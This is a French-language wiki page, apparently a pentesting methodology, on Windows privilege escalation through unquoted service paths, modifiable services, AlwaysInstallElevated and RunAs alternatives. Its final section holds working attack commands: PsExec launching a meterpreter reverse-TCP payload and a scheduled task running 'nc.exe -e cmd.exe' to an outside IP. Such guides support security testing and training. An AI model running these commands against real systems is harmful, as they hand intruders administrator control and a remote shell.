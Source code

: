 ```yaml
---
title: Elévation de priviléges (Windows)
permalink: /Elévation_de_priviléges_(Windows)/
---
```


The following elements are based on <http://toshellandback.com/2015/11/24/ms-priv-esc/>

Trusted Service Paths
---------------------

Si le "Service path" d'un service n'est pas mis entre quote il est possible d'effectuer une attaque. Pour l'exemple on considère le Service Path suivant:

``` text
C:\Program Files\Some Folder\Service.exe
```

Windows va essayer d'appeler les programmes suivant, jusqu'à ce que l'un d'eux soit identifé:

``` text
C:\Program.exe
C:\Program Files\Some.exe
C:\Program Files\Some Folder\Service.exe
```

Ceci peut conduire à une compromission s'il est possible de créer `C:\Program.exe` ou `C:\Program` `Files\Some.exe`

[WMIC](/WMIC "wikilink") peut être utilisé pour contrôler ce point:

``` text
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

On peut utiliser [icacls](/icacls "wikilink") pour vérifier les permissions:

``` text
icacls "C:\Program Files (x86)\Privacyware"
```

On peut ensuite relancer le service:

``` text
sc stop PFNet
sc start PFNet
```

Si on a pas les privilèges pour redémarrer le service, on peut essayer de redémarrer le serveur.

Modifier un service Windows
---------------------------

Avec de la chance il est possible de modifier un service. L'outil [accesschk](/accesschk "wikilink") peut être utilisé pour vérifier ceci:

``` text
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

On peut regarder les propriétés du service PFNet

``` text
sc qc PFNet
```

Il est parfois possible de changer le binaire lui même.

AlwaysInstallElevated
---------------------

Regarder si l'option `AlwaysInstallElevated` est active:

``` text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Alternatives à RunAs
--------------------

On est parfois dans des situations où on a:

-   Un shell non interactif sur un serveur
-   Le mot de passe administrateur du serveur

Dans ce cas il est possible d'executer des commandes avec une des méthodes suivantes.

### PsExec

Il faut avoir uploaddé [PsExec](/PsExec "wikilink"). Ensuite on peut exécuter la commande suivante:

``` bash
PsExec \\BETHANY -u alice -p aliceisnice C:\HFS\encrypted_meterpreter_reverse_tcp_80.exe
```

### schtasks

Il est possible de créer une "scheduled task" et passer le mdp admin sur la ligne de commande.

``` bash
schtasks /create /sc once /tr "nc.exe -e cmd.exe 192.168.30.156 443" /tn MASUPERTACHE /st 00:00:00 /ru alice /rp aliceisnice
schtasks /run /tn MASUPERTACHE
```

Ressources
----------

### Outils

-   [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) pour identifier des possibilité d'élévation de priviléges.
-   [BypassUAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) pour contourner l'UAC.
-   Attaque [Hot Potato](https://foxglovesecurity.com/2016/01/16/hot-potato/)

### Documents

-   [Windows Exploit Suggester (Tool)](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
-   [Encylopaedia of Windows Privilege Escalation (Video)](https://www.youtube.com/watch?v=kMG8IsCohHA)
-   [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
-   [All roads lead to SYSTEM (PDF)](https://labs.mwrinfosecurity.com/system/assets/760/original/Windows_Services_-_All_roads_lead_to_SYSTEM.pdf)
-   [Elevating privileges by exploiting weak folder permissions](http://www.greyhathacker.net/?p=738)
-   [Windows Privilege Escalation Vectors](http://toshellandback.com/2015/11/24/ms-priv-esc/Common)

[Category:Méthodologies](/Category:Méthodologies "wikilink")